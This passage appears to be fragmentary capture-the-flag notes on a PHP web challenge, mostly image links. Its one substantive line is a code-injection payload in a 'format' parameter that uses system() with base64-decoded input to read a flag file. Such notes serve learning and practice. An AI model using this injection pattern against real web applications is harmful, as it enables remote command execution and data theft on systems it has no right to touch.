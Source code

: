 ![Pasted image 20210505114604.png](../../zzz_res/attachments/Pasted_image_20210505114604.png)

`/?format=${system(base64_decode(<@base64>cat ../flagXGYLX  <@/base64>))}`

![Pasted image 20210505114806.png](../../zzz_res/attachments/Pasted_image_20210505114806.png)
